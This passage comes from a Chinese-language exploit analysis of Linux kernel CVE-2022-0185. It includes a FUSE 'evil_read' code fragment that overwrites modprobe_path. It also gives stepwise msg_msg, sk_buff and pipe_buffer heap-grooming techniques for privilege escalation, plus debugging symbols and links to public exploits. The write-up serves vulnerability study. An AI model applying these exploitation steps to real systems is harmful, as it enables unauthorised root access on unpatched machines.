              struct fuse_file_info *fi)
{//[5]fuse文件系统的evil_read 直接将需要篡改的内容拼接到对应位置上。
    // change to modprobe_path
    char signal;
    char evil_buffer[0x1000];
    memset(evil_buffer, 0x43, sizeof(evil_buffer));
    char *evil = modprobe_win; //char *modprobe_win = "/tmp/w";
    memcpy((void *)(evil_buffer + 0x1000-0x30), evil, sizeof(evil));

    size_t len = 0x1000;

    ···

    memcpy(buf, evil_buffer + offset, size); 

    // sync with the arb write thread
    read(fuse_pipes[0], &signal, 1); //[7]等待溢出操作完成,返回，完成任意地址写

    return size;
}
```

1. 在0x1337000 `mmap` 一页 页1

2. 将消息长度设定为0x1010-0x30=0xfe0，这样消息正好需要分成两段

3. `fsconfig` 准备溢出前填充，申请了一个`kmalloc-4k`

4. 使用前面注册过的fuse 文件系统在0x1338000 `mmap`一页 页2

5. 发送消息，长度0xfe0，申请一个`kmalloc-4k` 和一个`kmalloc-32`。消息起始位置在页1 末尾。这时`msgsnd` 里**面的`copy_from_user` 函数从用户空间拷贝消息到内核空间的时候，拷贝到页2 的时候会触发page fault调用用户空间的fuse 文件系统的 `evil_read` 函数**，这个函数是我们指定的，将我们想要写得内容给内核。并且这个函数会等待下面的进程执行完毕才返回。

6. 在这时启动新进程，新进程完成溢出操作，溢出到后面的消息头`msg_msg` 里面的`msg_msgseg * next` 指针覆盖指向第二段消息的指针为指向`modprobe_path`。然后给`evil_read` 函数发送完成信号

7. `evil_read` 返回，完成任意地址写。`modprobe_path` 被篡改为`"/tmp/w"`

   

图示：



既然修改了`modprobe_path`，我们就认为提权成功，后续exp的提权操作是给`/bin/bash` 加suid 权限来完成的。不过已经不重要了。


### 新exp分析(人造dirty pipe 通杀版)

来自: [veritas501/CVE-2022-0185-PipeVersion](https://github.com/veritas501/CVE-2022-0185-PipeVersion)

主要思路来自CVE-2022-0847(dirty pipe) 曝光后，发现pipe 和splice 有这么一个机制：

1. pipe 管道由16 个缓存页组成，每次向pipe 写入数据会检测当前写到了第几页，如果没有写完这一页会尝试在这一页续写。但并不是所有页都可以续写，比如下面情况。
2. splice 允许向pipe 管道传输文件，实现方法是通过将文件的缓存页直接替换pipe 的缓存页，如此替换的文件缓存页不允许pipe 续写。
3. 在5.8 版本之后通过pipe_buffer->flags 来判断该页是否允许续写。在5.8 版本前通过pipe_buffer->ops 是否是anon_pipe_buf_ops 来判断是否可以续写。

那么dirty pipe 漏洞的成因是对pipe_buffer->flags 没有初始化，导致splice 传输的文件缓存页可以被续写。虽然已经被修复，但考虑如果我们可以认为篡改flags 是否可以"人造dirty pipe"呢？ 答案是肯定的，要知道dirty ppie 是一个利用起来不依赖任何地址泄露的漏洞，而pipe_buffer 又是内核漏洞利用的常用victim 结构体，篡改他的flags 或者ops 易如反掌。下面介绍通过人造dirty pipe 来实现通杀exp 的思路：


先喷射若干队消息队列，每队包含一个0x1400 的msg_msg，这样msg 会分成两段，一段0x1000和一段0x4000，然后使用越界写修改主消息段的m_ts 位位0x1800：



这样可以通过找到**能成功读到0x1800 长度的msgid** 来确定那个队列的msg_msg被溢出了，还要通过越界读确定后面跟的是另一个消息的消息段2(sec2)。然后将除此之外所有其他msg队列释放掉：



然后喷射若干队消息队列，每队包好16个(若干个)0x400 的msg_msg，这样理想状态，某一队的某一个消息就会占用到上图虚线的freed 0x400 slab中，形成如下布局，msg 队列X 的第5 msg 申请到了该slab：



然后再通过msg1 的越界读，获得msg5 的prev值，也就是msg4 的地址，通过msg 中我们布置的内容，可以确定msq队列号X，msg 在队列中的序号5。

接下来释放msg6和msg6 之后的所有msg，然后重新在队列X中添加一个新消息，新消息还是会接在msg5 后面也就是新msg6，newmsg6，在newmsg6 里面(地址末尾不是0x00的位置)布置一个假的msg 头fake head，假的头指向msg4，形成如下所示：



然后再来一次越界读，记录一下newmsg6 中fake head的地址，为越界读到的msg5->next 的值加上我们布置的偏移：


然后二二三四再来一次，重新搞一次越界写，这次覆盖msg 头部的next指针指向newmsg6中的fakeHead，刚刚已经得到地址了：



直接通过msgX 释放msg4，然后喷射sk_buff占领该释放的msg4，并伪造next 与prev 指向自己(之前已经知道地址)，用于后续free第二次绕过msg 的unlink：



然后再用newmsg1 这个队列释放一次msg4，然后用pipe_buffer 再次将其占领，让sk_buff 和pipe_buffer占领同一个区域形成如下形势：



接下来的操作直接参考"[胜利方程式](https://blog.csdn.net/Breeze_CAT/article/details/124887764)"后半段即可，exp：https://github.com/veritas501/CVE-2022-0185-PipeVersion

## 调试技巧

相关符号：

```
ffffffff81356040 t legacy_parse_param
ffffffff814927f0 t do_msgsnd
ffffffff81493550 t do_msgrcv

ffffffff813400b0 t single_start
ffffffff82c6c2e0 D modprobe_path
```

条件断点

```
ignore 1 117 #跳过断点1 117次，用来断正好溢出的fsconfig
```

## 参考

github：[Crusaders-of-Rust/CVE-2022-0185](https://github.com/Crusaders-of-Rust/CVE-2022-0185)

writeup：https://www.willsroot.io/2022/01/cve-2022-0185.html

veritas501: [CVE-2022-0185分析及利用 与 pipe新原语思考与实践](https://veritas501.github.io/2022_03_16-CVE_2022_0185%E5%88%86%E6%9E%90%E5%8F%8A%E5%88%A9%E7%94%A8%E4%B8%8Epipe%E6%96%B0%E5%8E%9F%E8%AF%AD%E6%80%9D%E8%80%83%E4%B8%8E%E5%AE%9E%E8%B7%B5/#%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)
